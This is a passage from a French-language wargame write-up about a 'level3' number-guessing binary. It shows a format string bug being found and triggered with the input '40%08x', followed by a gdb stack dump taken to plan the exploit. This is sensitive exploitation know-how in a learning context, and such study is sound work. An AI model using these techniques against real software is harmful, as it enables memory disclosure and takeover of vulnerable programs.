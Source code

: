Mais à bien regarder on voit que la façon dont l'output est géré quand le chiffre est trop grand est différente de quand le chiffre est trop petit.

En effet, au lieu de faire directement le `fprintf` vers la sortie d'erreur, le programme ajoute un `sprintf` et la chaine générée est alors passée telle quelle à un `fprintf`.

La fonction `sprintf` n'ayant pas de protection contre les buffer overflow on pourrait penser qu'elle constitue l'objectif du level mais à bien regarder le buffer de destination `outputbuff` n'est pas une variable de la stack frame : il est rattaché à l'adresse `0x80cc200`, c'est une variable globale.

Effectivement on peut provoquer un overflow et on obtient un segfault mais le crash survient en plein milieu de la fonction `getenv` donc bien loin du code que l'on a sous les yeux.

En vérité il s'agit bien sûr d'une exploitation de chaine de format car on a le contrôle sur ce qui est passé à `fprintf` :

```shellsession
$ ./level3
############################
# Random number game - 1.0 #
############################
guess the number between 0 and 40, type exit to close
guess: %08x
Your guess %08x is to low
guess: 40%08x
Your guess 40ffd6c54c is to high
```

En passant `40` au début de la chaine on passe le `stroint`, on entre dans le cas du *trop grand* et on déclenche le bug.

Avec une vulnérabilité de format string on peut extraire et écrire des données comme expliqué ici : [Pwing echo : Exploitation d'une faille de chaîne de format](https://devloop.users.sourceforge.net/index.php?article102/pwing-echo-exploitation-d-une-faille-de-chaine-de-format).

## Faites vos jeux

Mais pour réaliser l'exploitation il faut une bonne connaissance de l'état de la stack. Ici j'ai placé un breakpoint sur l'adresse `0x080485af` (juste après le `fprintf` vulnérable) et en afichant 148 dwords à partir de `esp+32` je retrouve toutes les informations qui m'intéressent :

```
guess: 40AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Your guess 40AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA is to high

Breakpoint 1, 0x080485af in start_game ()
(gdb) x/148wx $esp+(8*4)
0xffffca00:     0x00000002      0x0000000d      0x00000028      0x41413034
0xffffca10:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffca20:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffca30:     0x41414141      0x41414141      0x41414141      0x41414141
0xffffca40:     0x00414141      0x00000000      0x00000000      0x00000000
0xffffca50:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffca60:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffca70:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffca80:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffca90:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcaa0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcab0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcac0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcad0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcae0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcaf0:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcb00:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcb10:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcb20:     0x00000000      0x00000000      0x00000000      0x00000000
0xffffcb30:     0x00000000      0x00000000      0x00000000      0x00000000
```